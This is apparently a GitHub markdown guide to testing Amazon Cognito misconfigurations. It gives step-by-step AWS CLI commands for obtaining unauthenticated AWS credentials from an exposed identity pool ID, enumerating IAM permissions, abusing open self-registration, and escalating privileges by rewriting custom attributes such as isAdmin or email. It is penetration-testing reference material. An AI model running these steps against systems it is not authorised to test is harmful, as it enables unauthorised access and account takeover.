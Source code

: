 Credit: Yassine Aboukir @yassineboukir


# Amazon Cognito Security Misconfiguration

## Introduction
Amazon Cognito, you can add user sign-up and sign-in features and control access to your web and mobile application. Amazon Cognito provides an identity store that scales to millions of users, supports social and enterprise identity federation and offers advanced security features to protect your consumers and  business.
Amazon Cognito makes it easier for you to manage user identities, authentication, and permission.
It consists of two main components:
* User Pools: allow sign-in and sign-up functionality
* Identity Pools: allow authenticated and unauthenticated users to access AWS resources using temporary AWS credentials.


#### API calls to User pool
```
https://cognito-idp.us-west-2.amazonaws.com
```

#### API calls to Identity pool
```
https://cognito-identity.us-west-2.amazonaws.com
```


# Security Misconfiguration
## 1 Unauthorized access to AWS services due to Liberal AWS Credentails.
* Try to fetch temporary AWS credentails using unauthenticated user 
To generate the AWS credentaisls, we need to find ` Identity Pool ID ` which is usually hardcoded in the source code, in a bundled JS file or in HTTP response. Other useful information that you can find:
	* Client ID
	* User Pool ID
	* Region

![image](https://user-images.githubusercontent.com/88592872/211176003-f3a443e0-b3ba-445c-a729-7a3dc64278a4.png)


Next step is to use the Pool Identity ID to generate an Identity ID. User AWS-Cli tool [https://aws.amazon.com/cli/](https://aws.amazon.com/cli/)


#### Command
```
aws cognito-identity get-id --identity-pool-id <identity-pool-id> --region <region>
```

#### Example Command
```
aws cognito-identity get-id --identity-pool-id "us-east-1:b37a7b57-6412-467f-8854-2be137e33871" --region us-east-1

```


Copy the identity-id from the response and use it in the next command.

#### Command
```
aws cognito-identity get-credentials-for-identity --identity-id <identity-id> --region <region>
```

Now we can enumerate permissions associated with these credentials using a tools such as:
* Enumreate-iam: [https://github.com/andresriancho/enumerate-iam](https://github.com/andresriancho/enumerate-iam)
* Scout Suite: [https://github.com/nccgroup/ScoutSuite](https://github.com/nccgroup/ScoutSuite)


#### Command
```
./enumerate-iam.py --access-kry <AccessKeyID> --secret-key <SecreetKey> --session-token <SessionToken>
```

## 2. Authentication bypass due to enabled SignUp API action

Self-registration enabled by default when creating a new user pool.
We only need the client ID and region to test against the self-registration

#### Command
```
aws cognito-idp sign-up --client-id <client-id> --username <email-address> --password <password> --region <region>
```

In case of a successful self-registration, a 6 digits confirmation code will be delivered to the attacker's email address 
You'll need to confirm the account next

#### Command
```
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email-address> --confirmation-code <confirmation-code> --region <region>
```

Sometimes you might successfully be able to sign up and register an account but it doesn't have any user group assigned. However, you will be able to obtain temporary AWS credentials which you can test against liberal permissions as we explained earlier.

## 3: Privilege escalation through writable user attributes
 
Attributes are pieces of information that help you identify individual users, such as name, email address and phone number. A new user pool has a set of default standard attributes.
You can also add custom attributes to your user pool definition in the AWS management console.
 
Unless set as readable only, the new custom attribute permission is writable by default which allows the user to update its value.
 
 * Fetching user attributes
In order to test against this misconfiguration, you need to be authenticated then we'll fetch the available user attributes using the generated access token.
 
#### Command
```
aws cognito-idp get-user --region <region> --access-token <access-token>
```


Look out for custom attributes such as:
```
custom:isAdmin
custom:userRole
custom:isActive
custom:isApproved
custom:access
```

* Updating user attributes

#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<attribute-name>",Value="<new-value>"
```

## 4 Updating email attribute before verification
 
There are scenarios where the user isn't allowed to update their email address due to both client and server-side security controls. However, by leveraging Cognito API, it might also be possible to bypass this restriction.
 
 
#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<email>",Value="<new-email-address>"
```
